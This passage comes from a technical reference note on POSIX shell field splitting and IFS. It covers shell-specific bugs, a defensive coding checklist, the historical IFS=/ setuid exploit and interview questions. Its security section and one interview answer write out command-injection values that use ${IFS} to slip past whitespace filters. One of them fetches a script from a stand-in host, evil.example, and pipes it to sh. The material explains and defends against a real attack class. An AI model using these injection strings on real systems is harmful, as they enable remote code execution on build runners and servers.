> - Fix: Scope `IFS` only to `[[The-read-Builtin]]` (`IFS=: read -r a b`), isolate `IFS` mutations inside a subshell `( IFS=:; set -- $PATH; ... )`, or restore `IFS` immediately after `set -- $var`.

> [!warning] Multibyte UTF-8 delimiters in `IFS` corrupt or over-split fields
> - Trigger: Assigning a multi-byte UTF-8 character `sep` to `IFS` (for example `U+00F7`, bytes `0xc3 0xb7`, in `IFS="$sep"` or `IFS=" $sep"`).
> - Symptom: Shells that scan `IFS` byte-by-byte (`dash < 0.5.13`, BusyBox `ash`, `mksh`, `posh`) treat `0xc3` and `0xb7` as two separate non-whitespace delimiters, turning `"a${sep}b"` into 3 fields (`<a> <> <b>`) and splitting unrelated UTF-8 characters that share the `0xc3` prefix byte (such as `U+00D7`, bytes `0xc3 0x97`); meanwhile `bash` 5.3 increments `sindex++` by 1 byte instead of `ADVANCE_CHAR` when `IFS` whitespace precedes a multibyte non-whitespace delimiter (`(bash-5.3 subst.c, list_string, line 3243)`), leaving the orphan `0xb7` byte, which turns `"a ${sep}b"` into `<a> <> <b>` on macOS arm64 (`bash` 5.3.15) but into invalid UTF-8 `<a> <\xb7b>` on Linux aarch64 (`bash` 5.3.20 on Alpine, 5.2.37 on Debian), and macOS `bash` 3.2 also emits `<a> <\xb7b>` (all run 2026-10).
> - Fix: Restrict `IFS` strictly to single-byte ASCII characters from the portable character set (`0x01`-`0x7f`), and use `awk` or `python3` when multi-byte delimiters are required.

> [!warning] Inherited `IFS` environment pollution in `posh` (Austin Group Defect 884)
> - Trigger: Invoking a script under `posh` 0.14.1 when the calling process exported `IFS` in `environ` (such as `export IFS=:` in a parent wrapper).
> - Symptom: While standard POSIX shells sanitize `IFS` to `<space><tab><newline>` on startup per Austin Group Defect 884 (`(POSIX.1-2024 XCU 2.5.3)`), `posh` inherits the caller's `IFS` unchanged (`len=1 hex=3a`), causing subsequent unquoted expansions and default `read` commands to split on the foreign delimiter instead of whitespace.
> - Fix: Explicitly reset `IFS` at the head of every script with `unset IFS` (which splits on `<space><tab><newline>`) or the sentinel idiom `IFS=$(printf ' \t\nx'); IFS=${IFS%x}`, or invoke scripts using `env -u IFS` to prevent environment pollution.
> - Never write `IFS="$(printf ' \t\n')"`: command substitution strips the trailing newline, leaving `IFS` as `<space><tab>` only.

> [!warning] Spurious backslash in `ksh93u+m 1.0.10` during `"$*"` with null `IFS`
> - Trigger: Expanding double-quoted `"$*"` directly in a command argument under `ksh93u+m 1.0.10` when `IFS=` is null and positional parameters contain an empty string (for example, `set -- "a b" "" "c:d"; IFS=; printf '%s' "$*"`).
> - Symptom: A regression introduced into `ksh93u+m` on 2022-07-28 (so every release from 1.0.0 through 1.0.10) inserts a literal backslash `\` (`0x5c`) for each empty parameter, producing `a b\c:d` instead of concatenating parameter values cleanly to `a bc:d` (`(POSIX.1-2024 XCU 2.5.2)`).
> - Fix: Assign `"$*"` to a variable first (`v="$*"; printf '%s' "$v"`), which bypasses the argument-expansion bug in `ksh93u+m 1.0.10`, or upgrade to a build incorporating the 2025-03-21 upstream fix from `ksh93/ksh` (on the `dev` and `1.0` branches; no tagged release after `v1.0.10` contains it as of 2026-10).

> [!warning] Collapsing `"$@"` into a single field under null `IFS` in `posh`
> - Trigger: Expanding double-quoted `"$@"` inside command arguments when `IFS=` is null under `posh` 0.14.1 (for example, `IFS=; set -- "" "a b"; printf '<%s>' "$@"`).
> - Symptom: Instead of expanding positional parameters into separate fields as mandated by `(POSIX.1-2024 XCU 2.5.2)`, `posh` joins the parameters into one field with a space delimiter, yielding a single argument `< a b>`, even though its `"$*"` under the same null `IFS` correctly joins with no separator (`a bc:d`) and `$#` is still `2` (run 2026-10).
> - Fix: Never expand `"$@"` while `IFS` is null under `posh`; restore default `IFS` or unset `IFS` before expanding positional parameter arrays.

## Security and robustness

### The historical `IFS=/` privilege escalation and startup reset

Early Bourne shells imported `IFS` from `environ` at startup and applied it to every word on a command line: the XRAT confirms that earlier shells split all fields, with "important security implications", and Defect 884 that "some old shells did inherit IFS from the environment".
When a privileged `setuid` binary called `system("/bin/mail root")` or `popen(3)`, an attacker who exported `IFS=/` and `PATH=.:/bin` caused the shell to split `/bin/mail root` on `/` into the command name `bin` with argument `mail root`, executing `./bin` from the attacker's working directory as `root`.
Modern POSIX closes both halves of this exploit:
1. Field splitting applies only to the results of unquoted step 1 expansions, never to literal command words (`(POSIX.1-2024 XCU 2.6.5; XRAT C.2.6)`).
2. The shell unconditionally resets `IFS` to `<space><tab><newline>` when invoked (`(POSIX.1-2024 XCU 2.5.3; bash-5.3 variables.c, initialize_shell_variables)`).

However, three operational edge cases remain:
- **Subshells inherit `IFS`**: Because a subshell `( ... )` or `$( ... )` (`[[Subshells-and-the-Execution-Environment]]`) forks the current shell without invoking a new shell binary, it inherits the parent shell's current `IFS`.
- **`zsh` passes `environ`'s `IFS` through to children**: Because `zsh` marks `IFS` with `PM_DONTIMPORT` (`(zsh-5.9 Src/params.c, createparamtable)`), invoking `env IFS=: zsh -c 'cmd'` resets `IFS` inside `zsh` (both native and `--emulate sh`) but leaves `IFS=:` in the `envp` passed to `cmd`, whereas `bash`, `dash`, and `ksh93` overwrite the exported `IFS` entry in `envp` with `20090a`.
- **`posh` fails to reset inherited `IFS`**: While Austin Group Defect 884 tightened POSIX to require resetting `IFS` to `<space><tab><newline>` upon invocation, `posh` 0.14.1 inherits `IFS` from `environ` directly (`len=1 hex=3a` when `IFS=:` is exported), leaving legacy environment pollution vulnerabilities open unless scripts explicitly reinitialize `IFS` at startup.

### Whitespace-filter bypass via `${IFS}` in command injection (CVE-2023-31128)

Web Application Firewalls (WAFs), input validators, and Git reference format rules (`git-check-ref-format(1)`) frequently reject literal ASCII spaces (`0x20`) and tabs (`0x09`).
When an application interpolates an untrusted string into a shell command (such as `sh -c` or a GitHub Actions `run:` step), an attacker can break out of double quotes and use unquoted `${IFS}` (or `$IFS`) in place of spaces because step 2 Field Splitting turns the expanded `<space><tab><newline>` of `${IFS}` into an `argv` boundary before command execution.
In `CVE-2023-31128` (Nextcloud Cookbook `pull-checks.yml`), `github.head_ref` (a Git branch name that cannot contain spaces) was interpolated into a shell step; setting the branch name to `zzz";echo${IFS}"hello";#` bypassed Git's ref-name whitespace prohibition and used field splitting on `${IFS}` to separate the injected command from its arguments (`(CVE-2023-31128)`).

### Defensive coding checklist

1. **Quote every expansion**: Write `"$var"`, `"$(cmd)"`, and `"$@"` unconditionally unless field splitting is explicitly desired and bounded.
2. **Disable globbing before intentional splitting**: Whenever you must split a scalar variable with `set -- $var`, precede it with `set -f` and restore `set +f` only after `$var` has been split.
3. **Use `IFS= read -r` for line-oriented input**: Always clear `IFS` on the `read` prefix (`while IFS= read -r line; do ...`) so leading and trailing `IFS` whitespace is preserved (`[[The-read-Builtin]]`).
4. **Never store argument lists in scalar strings**: A scalar string cannot losslessly represent arguments containing arbitrary whitespace without `[[The-eval-Builtin]]` quoting; use `"$@"` (via `set --`) in POSIX `sh` or arrays (`"${args[@]}"`) in `bash`/`zsh`/`ksh93`/`mksh`.

## The principal's view

Field splitting dates from the 1970s Bourne shell, which had no arrays, so splitting a scalar was the only way to turn one value into many arguments; in production systems engineering, implicit splitting of unquoted expansions is best treated as a design defect (this is the note's judgment; the XRAT itself records only that splitting every field, as earlier shells did, had "severe problems" and security implications, `(POSIX.1-2024 XRAT C.2.6)`).
A staff-plus engineer treats field splitting not as a general-purpose string tokenizer, but as an ambient hazard that must be neutralized by default and invoked only under surgical, invariant-checked conditions:

- **Default posture**: Enforce `ShellCheck` rule `SC2086` (`Double quote to prevent globbing and word splitting`) and `SC2046` (`Quote this to prevent word splitting`) as hard CI gates.
  Any unquoted `$var` in a review requires an inline comment proving both that the input domain cannot contain `IFS` bytes inside an element and that `set -f` is active (`[[Pathname-Expansion]]`).
- **Trade-off of `set -- $var` vs `IFS=: read -r`**:
  Using `IFS=:; set -f; set -- $var` splits an arbitrary number of fields into `$1 .. $n` in user-space memory (3 heap allocations per field in `bash`, 1 arena allocation per field in `dash`), but **drops a single trailing empty field** (`a:b:` yields 2 fields `"a"` and `"b"` in POSIX shells, vs 3 in `zsh --emulate sh`) and overwrites the caller's positional parameters (`$@`).
  In addition, `posh` drops lone delimiter fields entirely (`:` produces 0 fields instead of 1 empty field) and collapses `"$@"` when `IFS` is null, making `set --` fragile across non-standard shells.
  Using `IFS=: read -r f1 f2 f3` maps fixed columns into named variables without touching `$@` or invoking globbing, but collapses all excess columns into the last variable (`f3`), and `posh` erroneously retains the leading delimiter in `f3`.
- **When to switch tools**:
  As soon as data contains quoted delimiters (RFC 4180 CSV), escaped delimiters, NUL bytes (outside `bash`/`zsh` `read -r -d ''`), multi-character or multi-byte UTF-8 delimiters, or more than a few hundred records, stop writing shell loops.
  Hand the stream to `awk` (`-F`), `jq`, `python3`, or a compiled binary where string splitting is an explicit function call rather than a side effect of variable evaluation.

## Interview questions

> [!question] L5: Why does `unset IFS` not disable word splitting, and how do `unset IFS` and `IFS=` differ when expanding unquoted `$var` and double-quoted `"$*"`?
>
> > [!success]- Answer
> > Under `POSIX.1-2024 XCU 2.5.3` and `2.6.5`, when `IFS` is unset, the shell performs field splitting and `"$*"` joining as if `IFS` were set to the 3-byte default `<space><tab><newline>`, even though parameter expansions like `${IFS-unset}` still observe `IFS` as unset (`[[Null-versus-Unset]]`).
> > Setting `IFS=` (or `IFS=''`) assigns a 0-byte null string to `IFS`, which completely disables field splitting on unquoted expansions (except that wholly unquoted empty expansions are still elided) and causes `"$*"` to concatenate positional parameters with zero separator bytes between them (`(POSIX.1-2024 XCU 2.5.2)`).
> > In `ksh93u+m 1.0.10`, expanding `"$*"` directly with null `IFS` and an empty positional parameter inserts a spurious backslash `\` (`a b\c:d`), which was fixed upstream in `ksh93/ksh` on 2025-03-21 (not yet in a tagged release as of 2026-10).
> >
> > Follow-up: What bug occurs if a script saves `OLDIFS=$IFS` at the start of a function and restores `IFS=$OLDIFS` at the end when `IFS` was initially unset?

> [!question] L5: Predict the output of the following POSIX `sh` snippet and explain each field count:
> ```sh
> IFS=' :'
> x='  : a : : b :  '
> set -f
> set -- $x "c:d" e:f
> printf 'argc=%d:' "$#"
> for arg in "$@"; do printf '<%s>' "$arg"; done
> printf '\n'
> ```
>
> > [!success]- Answer
> > In standard POSIX shells (`dash`, `bash`, `ksh93`, `mksh`, `yash`, BusyBox `ash`), the snippet prints `argc=6:<><a><><b><c:d><e:f>`.
> > Inside `$x`, `IFS` contains `<space>` (`IFS` whitespace, `s`) and `:` (`IFS` non-whitespace, `n`), so delimiters match `(s*ns*|s+)` as field terminators: leading `'  :'` terminates an empty field `<>`, `' a : '` terminates `<a>`, `': '` terminates `<>`, and `'b :  '` has `:` terminate `<b>` while trailing spaces are ignored without starting a fifth field (`(POSIX.1-2024 XCU 2.6.5)`).
> > Next, `"c:d"` is immune to field splitting because it is double-quoted (`<c:d>`), and `e:f` is immune to field splitting because it is literal text that did not result from a step 1 expansion (`<e:f>`).
> >
> > Follow-up: What does the exact same snippet print under `zsh --emulate sh` and under native `zsh`?

> [!question] L6: How do `dash` and GNU `bash` internally prevent a literal colon in `IFS=:; x=a:b; printf '%s\n' $x c:d "$x"` from splitting `c:d` or `"$x"` while splitting `$x`?
>
> > [!success]- Answer
> > `dash` uses an out-of-band region list: during step 1 (`argstr()`), it writes the expanded word into `stackblock()` and calls `recordregion(startloc, newloc, 0)` only for byte ranges emitted by unquoted expansions, storing `{begoff, endoff, nulonly}` nodes in the global `ifsfirst`/`ifslastp` list (`(dash-0.5.13 src/expand.c, argstr, recordregion)`).
> > In step 2, `ifsbreakup()` iterates solely over `[string + ifsp->begoff, string + ifsp->endoff)`, so literal `c:d` and double-quoted `"$x"` are never scanned for `IFS` bytes (`(dash-0.5.13 src/expand.c, ifsbreakup)`).
> > GNU `bash` uses in-band control-character escaping: `expand_word_internal()` prefixes literal or double-quoted characters with `CTLESC` (`0x01`) and marks quoted nulls with `CTLNUL` (`0x7f`), and `string_extract_verbatim()` steps over any `CTLESC`-prefixed character via `ADVANCE_CHAR` without testing it against `IFS` (`(bash-5.3 subst.c, expand_word_internal, string_extract_verbatim)`).
> >
> > Follow-up: What happens in `bash` when `IFS` itself contains the `0x01` (`CTLESC`) or `0x7f` (`CTLNUL`) byte?

> [!question] L6: Debug this script: why does this `$PATH` auditor miss a trailing empty entry in `PATH=/bin:/usr/bin:` even though it catches leading and middle empty entries, and how do you fix it?
> ```sh
> IFS=:
> set -f
> for dir in $PATH; do
>   [ -z "$dir" ] && dir=.
>   ls -ld "$dir"
> done
> ```
>
> > [!success]- Answer
> > Because POSIX `IFS` delimiters are field terminators rather than field separators (`(POSIX.1-2024 XCU 2.6.5)`), `PATH=/bin:/usr/bin:` splits into only two fields (`"/bin"` and `"/usr/bin"`), silently dropping the trailing empty field after the final colon even though `[[Command-Search-and-PATH]]` treats a trailing colon in `PATH` as the current directory `.`.
> > By contrast, a leading colon (`:/bin`) or doubled colon (`/bin::/usr/bin`) precedes another character or delimiter and produces an empty field `""`.
> > To preserve a trailing empty entry portably in POSIX `sh`, append one extra `:` inside an expansion before splitting, so the original trailing colon now terminates an empty field (for example, `p=$PATH:; set -- $p` for a non-empty `PATH`, or `for dir in $(printf '%s:\n' "$PATH")`, both of which yield `/bin`, `/usr/bin`, and an empty field in `dash` and `bash`, run 2026-10), or parse `$PATH` with parameter expansion (`${p%%:*}` / `${p#*:}`) in a `while` loop without using `IFS`.
> > A literal `$PATH:` does not work, because the appended `:` did not result from an expansion and so is never a delimiter.
> >
> > Follow-up: Why does `IFS=:; set -- $PATH` also fail when `PATH` is `":"` under `posh`?

> [!question] L6: Why does `printf 'a:b:\n' | IFS=: read -r x y` set `y="b"`, whereas `printf 'a:b::\n' | IFS=: read -r x y` sets `y="b::"` in `dash`, `bash`, and `ksh93`?
>
> > [!success]- Answer
> > In `dash` (`readcmd()` in `src/miscbltin.c` calls `ifsbreakup()` with `maxargs`, handled in `ifsbreakup_slow()`), `bash` (`builtins/read.def` calls `get_word_from_string()` from `subst.c`), and `ksh93`, when `read` assigns the final variable operand (`y`), it strips a trailing non-whitespace `IFS` delimiter if and only if that delimiter terminates the last field and no further fields follow (`(dash-0.5.13 src/expand.c, ifsbreakup_slow)`).
> > In `a:b:`, there are exactly two fields (`"a"` and `"b"`), matching the two variables `x` and `y`, so the single trailing `:` is consumed as the terminator of `"b"` and `y` receives `"b"`.
> > In `a:b::`, the second `:` starts a third empty field, so the remaining input `"b::"` contains more than one field and is assigned unsplit (with only trailing `IFS` whitespace removed) to `y` as `"b::"`.
> > Both results were reproduced in `dash`, `bash`, `ksh93`, `mksh`, `yash`, and BusyBox `ash`, while `zsh` and `posh` give `y="b:"` (run 2026-10); a literal reading of the POSIX.1-2024 `read` text (Defect 1778), which returns the remainder unmodified except for leading and trailing `IFS` white space, also gives `y="b:"`, so the single-trailing-delimiter stripping is historical practice rather than something the Issue 8 wording states.
> >
> > Follow-up: How do `zsh` and `posh` behave on `printf 'a:b:\n' | IFS=: read -r x y`, and how does `POSIX.1-2024` Defect 1778 specify this case?

> [!question] L7+: How does an expansion error inside a here-document or redirection trigger an out-of-bounds memory read in `ifsbreakup()` on the subsequent command in `CVE-2026-38754` (BusyBox `ash`) and `dash` commit `9036ee8d7140`?
>
> > [!success]- Answer
> > During word expansion (`expandarg()`), `dash` and BusyBox `ash` record splittable byte ranges `[begoff, endoff)` in the global linked list `ifsfirst`/`ifslastp` via `recordregion()` and normally clear that list via `ifsfree()` at the end of `expandarg()` (`(dash-0.5.13 src/expand.c, expandarg; busybox-1.38.0 shell/ash.c, expandarg)`).
> > When an expansion inside a here-document (`redirectsafe()` / `openhere()`) or `expandstr()` hits a fatal expansion error such as `${D?$M$M$M$M$M$M}`, `sh_error()` calls `longjmp(3)` (`EXERROR`) directly to the enclosing handler, bypassing the `out: ifsfree();` epilogue in `expandarg()` (`(CVE-2026-38754; dash commit 9036ee8d7140)`).
> > Because `ifslastp` is not reset to `NULL`, the next command that enters `ifsbreakup(string, ...)` on a shorter string in `stackblock()` iterates over the stale `ifsregion` offsets (`p = string + ifsp->begoff` up to `string + ifsp->endoff`), reading past the end of the stack buffer and leaking heap, stack, and arena pointers.
> >
> > Follow-up: Why was adding a bounds check inside `ifsbreakup()` (as attempted in BusyBox patch v2) inferior to calling `ifsfree()` in `restore_handler_expandarg()` when catching `EXERROR`?

> [!question] L7+: What happens in GNU `bash` 5.3 (`subst.c`, `list_string` and `string_extract_verbatim`) when `LC_ALL=en_US.UTF-8`, `sep` is the 2-byte UTF-8 character `U+00F7` (`0xc3 0xb7`), `IFS=" $sep"`, and `$x` is `"a ${sep}b"`?
>
> > [!success]- Answer
> > In `bash-5.3`, `setifs()` populates a single-byte lookup table `ifs_cmap[256]` where `ifs_cmap[' ']` (`0x20`), `ifs_cmap[0xc3]`, and `ifs_cmap[0xb7]` are all set to `1` (`(bash-5.3 subst.c, setifs)`).
> > When `list_string()` splits `"a ${sep}b"`, `string_extract_verbatim()` extracts `"a"` and stops at `' '` (`sindex = 1`), setting `whitesep = 1` and advancing `sindex` past `' '` to `sindex = 2` (the leading byte `0xc3` of `sep`) (`(bash-5.3 subst.c, list_string, lines 3169-3230)`).
> > At line 3241, `list_string()` checks `if (string[sindex] && whitesep && issep(string[sindex]) && !ifs_whitesep(string[sindex]))` to fold a non-whitespace `IFS` character into a preceding `IFS` whitespace run; because `issep(0xc3)` checks the single-byte `ifs_cmap[0xc3]`, the condition succeeds, and line 3243 executes `sindex++` (a 1-byte increment instead of `ADVANCE_CHAR`)!
> > That leaves `sindex = 3` pointing at the orphan UTF-8 continuation byte `0xb7`; on the next loop iteration, `string_extract_verbatim()` sees `MB_INVALIDCH` on `0xb7`, falls back to single-byte `MEMBER(0xb7, charlist)`, treats `0xb7` as a second non-whitespace delimiter, and emits a spurious empty field `<a> <> <b>` (`(bash-5.3 subst.c, string_extract_verbatim, lines 1216-1220)`), as `bash` 5.3.15 does on macOS arm64.
> > On Linux aarch64 (`bash` 5.3.20 on Alpine, 5.2.37 on Debian) the same input instead yields `<a> <\xb7b>`, because there `MEMBER(0xb7, charlist)` does not match and the orphan byte stays in the next field (run 2026-10).
> > The same bash release disagrees across platforms, so treat a multibyte `IFS` character as unportable even within bash; the cause of the split is not established here.
> >
> > Follow-up: How does `dash` 0.5.13 avoid this bug in `changeifs()` and `ifsbreakup_slow()`?

> [!question] L7+: In a CI runner where a validator blocks literal spaces (`0x20`) and tabs (`0x09`) in user-supplied strings and executes `sh -c "deploy --tag \"$USER_TAG\""`, how can an attacker use `IFS` and field splitting to inject multiple arguments without any whitespace byte in `$USER_TAG`, as exploited in `CVE-2023-31128`?
>
> > [!success]- Answer
> > Even though `deploy --tag "$USER_TAG"` has double quotes in the outer command string passed to `sh -c`, `$USER_TAG` is interpolated before `sh -c` parses its script argument (`[[The-eval-Builtin]]`).
> > An attacker sets `USER_TAG` to `v1";curl${IFS}-fsSL${IFS}https://evil.example/p|sh;#`, which closes the double quote, starts a new command, and places unquoted `${IFS}` between words (`(CVE-2023-31128)`).
> > When `sh` executes the command, step 1 (`[[Parameter-Expansion]]`) expands unquoted `${IFS}` to `<space><tab><newline>`, and step 2 (Field Splitting) splits on those expanded `IFS` whitespace bytes to produce distinct `argv` elements (`curl`, `-fsSL`, `https://evil.example/p`) without any literal whitespace byte ever appearing in `$USER_TAG`.
> >
> > Follow-up: How do you rewrite the workflow step so that `$USER_TAG` is never parsed as shell syntax or subjected to field splitting?

## Related

Prerequisites: [[Arithmetic-Expansion]]

Next: [[Pathname-Expansion]]

See also: [[Expansion-Order]], [[Token-Recognition]], [[Quoting-Backslash-Single-and-Double]], [[Parameter-Expansion]], [[Null-versus-Unset]], [[Special-Parameters]], [[Command-Substitution]], [[Tilde-Expansion]], [[Quote-Removal]], [[Simple-Commands-and-Assignment-Prefixes]], [[Command-Search-and-PATH]], [[Subshells-and-the-Execution-Environment]], [[The-read-Builtin]], [[The-eval-Builtin]], [[The-set-Builtin-and-Shell-Options]], [[POSIX-2024-Changes]]

## Further reading

- [POSIX.1-2024 XCU 2.6.5 Field Splitting](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/V3_chap02.html#tag_19_06_05) - normative byte-level field splitting algorithm and candidate-field termination rules introduced via Austin Group Defects 1560 and 1649.
- [Austin Group Defect 884 (IFS initialization at startup)](https://austingroupbugs.net/view.php?id=884) - mandates that shells unconditionally reset `IFS` to `<space><tab><newline>` upon invocation to eliminate environment inheritance exploits.
- [POSIX.1-2024 XRAT C.2.6.5 Field Splitting Rationale](https://pubs.opengroup.org/onlinepubs/9799919799/xrat/V4_xcu_chap01.html#tag_23_02_06_05) - explains the historical System V versus KornShell split reconciliation and the `(s*ns*|s+)` ERE model.
- [POSIX.1-2024 XCU `read` Utility](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/read.html) - defines the modified field splitting algorithm used by `read` after Austin Group Defect 1778.
- [ksh93u+m Repository `NEWS` (2025-03-21 Bug Fix)](https://raw.githubusercontent.com/ksh93/ksh/dev/NEWS) - documents the regression fix for spurious backslashes inserted during `"$*"` expansion with null `IFS` and empty parameters.
- [dash `src/expand.c` (`argstr`, `recordregion`, `ifsbreakup`, `ifsfree`)](https://git.kernel.org/pub/scm/utils/dash/dash.git/plain/src/expand.c) - reference implementation of out-of-band `struct ifsregion` tracking and 8-byte SWAR `ifsmap` scanning.
- [dash Commit `9036ee8d7140` (`expand: Add ifsfree to expand to fix a logic error that causes a buffer over-read`)](https://git.kernel.org/pub/scm/utils/dash/dash.git/commit/src/expand.c?id=9036ee8d7140f9f34988f00468dda94a69ace8f6) and [CVE-2026-38754 (BusyBox `ash` `ifsbreakup`)](https://cveawg.mitre.org/api/cve/CVE-2026-38754) - primary vulnerability records showing how skipped `ifsfree()` calls on `EXERROR` `longjmp` cause out-of-bounds reads in `ifsbreakup()`.
- [GNU Bash 5.3 `subst.c` (`setifs`, `list_string`, `string_extract_verbatim`, `word_list_split`)](https://ftp.gnu.org/gnu/bash/bash-5.3.tar.gz) - implementation of in-band `CTLESC`/`CTLNUL` quoting and `IFS` splitting in `bash`.
